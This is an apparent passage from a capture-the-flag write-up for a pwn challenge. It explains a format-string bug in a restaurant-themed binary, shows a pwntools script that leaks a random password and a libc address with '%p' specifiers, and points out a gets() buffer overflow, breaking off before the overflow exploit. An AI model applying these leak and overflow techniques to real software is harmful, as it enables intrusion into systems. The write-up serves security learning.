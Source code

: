 ```c
      restaurant();
    else
      puts("Permission denied!\n");
    return 0;
  }
  ```

  As you can see, that `passwd` variable is pure random, since it is read from `/dev/urandom` , so we can't predict it.

  If we look closely, we can see that there is a Format-String-Bug in `(1)`. 

  We control `buff`, and then it gets printed with `printf`. It is known that Format string vulnerabilities make it possible to read stack memory of the vulnerable program.

  The `passwd` variable is stored in the stack, so with the FSB we can leak it and know its value!

  I saw, that by providing it with %p , 9 times, we get:

  `[b'0x6020c0', b'0x7f22babed8d0', b'0x7f22ba910151', b'0x7f22babed8c0', b'0x7f22baea9540', b'0x7ffdb6907aa8', b'0x100400760', b'0x7ffdb6907aa0', b'0x3cd376584']`

  After debugging a bit with `GDB` , I saw that the random value is `0xd376584`. we can see that its the the first element from the end, without the 2 nibbles at the start.

  We can also notice that the second element is a libc leak. this will save some time for us later.

  Here is how I extracted those values and sent the correct password in my script:

  ```py
  p = gdb.debug("./bin")
  p.recvline()

  p.sendline("%p|" * 9)

  leaks = p.recvline().split(b'|')
  rand = leaks[-2][3:] # its -2 and not -1, because there is a \n at the end

  libc.address = int(leaks[1], 16) - 0x3ed8d0 #gained this offset with gdb

  print(hex(libc.address), rand)

  p.recvline()
  p.sendline(hex(int(rand, 16)))
```

Now, we successfully entered the restaruant! from here , the challenge is exactly like `bistrov1`.

There is the same `BOF` in the `custom` function:
```py
int __cdecl custom()
{
  char buffer[100]; 

  printf("Choose what you want to eat:");
  gets(buffer);
  gets(buffer);
  return 0;
}
```
